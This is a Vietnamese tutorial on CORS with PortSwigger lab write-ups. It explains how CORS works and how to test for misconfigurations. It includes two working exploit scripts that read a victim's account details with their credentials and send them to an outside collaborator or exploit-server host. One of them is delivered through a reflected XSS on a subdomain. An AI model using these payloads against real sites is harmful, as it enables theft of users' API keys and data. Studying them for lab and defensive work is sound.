










# **Cross-origin resource sharing (CORS)** #

## **Cross-Origin Resource Sharing (CORS) là gì?** ##

- CORS là một cơ chế dựa vào HTTP header, cho phép server chọn ra các origin (khác cái của chính nó) mà trình duyệt được phép tải tài nguyên về.



- VD: front-end của <https://domain-a.com> sử dụng XMLHttpRequest (một đối tượng trong JS dùng để tương tác với server) để gửi request tới <https://domain-b.com/data.json>
  - Về vấn đề bảo mật, trình duyệt sẽ chặn cái request đến server khác gốc này, giả sử khi XMLHttpRequest và Fetch API cùng tuân theo SOP
  - Những web app sử dụng API như vậy sẽ chỉ có thể request tài nguyên từ chính origin của nó, trừ khi trong response của cái origin được request tới chứa CORS header
- Nếu không được triển khai cẩn thận có thể dẫn tới CSRF - Cross-site Request Forgery

**Cơ chế hoạt động của CORS**:
> **Trường hợp đơn giản nhất:**



- Trang web <https://foo.example> muốn lấy tài nguyên từ web có origin <https://bar.other> thì trong đoạn code JS sẽ có kiểu như sau:





- `Access-Control-Allow-Origin` với giá trị `*`, tức là tài nguyên được request tới có thể được truy cập bởi mọi origin.

> **Preflighted request:**

- Preflight request là CORS request được browser tự động gửi khi có thêm các custom header (không phải header do user agent tự tạo). Nó dùng để kiểm tra xem server tài nguyên có cho phép request chứa giao thức đó và các header được thêm vào để truy cập vào tài nguyên hay không
- Preflight request là một request với giao thức OPTIONS, và có các header như:
  - Access-Control-Request-Method
  - Access-Control-Request-Headers
  - Origin



> **Credentialed request:**

- Cách này dùng để tạo một request chứa credential của người dùng, thường là cookie
- Giả sử JS code có dạng như sau:



- Ta thấy thuộc tính .withCredentials của thực thể invocation được set là true. Mặc định, trình duyệt sẽ bỏ qua response từ server mà không có header Access-Control-Allow-Credentials: true. Thế nên việc set true mới làm cho trình duyệt nhận response từ server
- Vậy là ta có request và response tương ứng:


## **Các cách kiểm tra lỗ hổng CORS**
>
> ### **Reflected Origins**  

- Đặt Origin header: "Một url nào đó". Nếu `Access-Control-Allow-Origin` chấp nhận, điều đó có nghĩa là miền đó không lọc bất kỳ nguồn gốc nào.



> ### **Modified Origins**  

- Chúng ta có thể kiểm tra bằng cách thử các tên miền phụ `metrics.com.attack.com` hoặc `attackmetrics.com` hoặc `attack.metrics.com`

> ### **Trusted subdomains with Insecure Protocol**  

- Đây là một ý tưởng hay vì nếu một trong các tên miền phụ có lỗ hổng Cross-Site Scripting (XSS), nó sẽ cho phép kẻ tấn công đưa vào một tải trọng JS độc hại và thực hiện các hành động trái phép.
- Có thể thử thay đổi `http, https`

> ### **Null Originl**  

-Đặt Origin header thành giá trị null — Origin: null và xem liệu ứng dụng có đặt tiêu đề Access-Control-Allow-Origin thành null hay không. Nếu có, điều đó có nghĩa là nguồn gốc null được đưa vào danh sách trắng.



## **Các lỗ hổng phát sinh từ các sự cố cấu hình CORS**

- Nhiều trang web hiện đại sử dụng CORS để cho phép truy cập từ tên miền phụ và bên thứ ba đáng tin cậy. Việc triển khai CORS của họ có thể chứa sai sót hoặc quá dễ dãi để đảm bảo rằng mọi thứ đều hoạt động và điều này có thể dẫn đến các lỗ hổng có thể khai thác được.

> ### **CORS vulnerability with basic origin reflection**

- Dựa vào sự thiếu chặt chẽ trong thiết kế CORS. Sau khi tôi đã kiểm tra trang web thì tôi phát hiện khi tôi truy cập vào my account thì nó sẽ thực hiện gửi API để lấy dữ liệu json với `CORS Credentials` và tôi thực hiện tấn công lấy dữ liệu api gửi về cho tôi như sau:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a220090040acab0c0160c11000700cc.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        fetch('https://pd6iogkp2gdg2ixqaxb51tq3ruxtli.oastify.com',{method: 'POST',body:this.responseText})

    };
</script>
```

- Và khi quản trị viên đăng nhập hệ thống tôi đã lấy được apikey của admin vì nó đã gửi request đến cho tôi



> ### **CORS vulnerability with trusted insecure protocols**

- Đối với bài này lỗ hổng nằm ở CORS nó chấp nhận request từ tên miền phụ của trang web chứng minh bằng ví dụ sau đây của tôi:



- Vậy từ điều ấy ta có thể tấn công bằng cách tìm một tên miền phụ có thể tấn công xss.

```js
<script>
    document.location="http://stock.0a8300b903f3e4ccc4fbcf3e00e400e7.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8300b903f3e4ccc4fbcf3e00e400e7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac2002603bde42dc49dce930142006a.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=2"
</script>
```
